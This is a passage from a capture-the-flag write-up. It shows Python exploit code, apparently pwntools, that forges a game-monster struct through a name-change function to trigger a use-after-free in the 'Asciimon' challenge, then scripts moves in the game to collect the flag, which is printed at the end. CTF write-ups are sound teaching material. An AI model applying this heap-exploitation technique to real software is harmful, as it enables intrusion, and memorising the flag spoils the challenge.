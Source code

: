```python
        #     int speed_0x30;
        #     int isUsedByPlayer_0x34;        <!----- This is set to 1 when we win a fight
        #     char* asciiart_0x38;
        # };
        new_name = (p32(x) + asciimon_name + b'\x00' + p32(hp) + p32(attack) + p32(defence)
                    + p32(speed) + p32(is_used_by_player) + p64(heap_addr))

        change_name_to(new_name)
        start_fights_until_escaped_from(asciimon_name)
        change_name_to(new_name)  # Because of the ordering of free/malloc, we need to change the name again

    # Now lets find that Caterpillar
    fly('gray')
    go_down(3)
    go_left(6)
    go_down(6)
    start_fights_until_escaped_from(b'Caterpillar')

    # Get back to the professor to get the flag
    go_up(5)
    fly('colour')
    go_right(16)
    go_up(3)

    # Step through first conversation with the professor
    press_enter_to_continue()
    press_enter_to_continue()
    press_enter_to_continue()
    press_enter_to_continue()
    press_enter_to_continue()

    # Go to the professor again
    PRINT = True  # Lets print output from now
    go_up(1)
    press_enter_to_continue()


except KeyboardInterrupt:  # CTRL+C anytime to escape to interactive
    pass

io.interactive()
```

The attack took ~18 mins to conduct. I have made a small video showing it, where I have increased the playback speed of step 4 and 5 by a factor of `50`. I fought and exchanged my Asciimon with a `Pitcher Plant` twice to trigger the `use-after-free` vulnerability.

![solution](solution.gif)

Got the flag: `CTF{remember_cinnabar}`
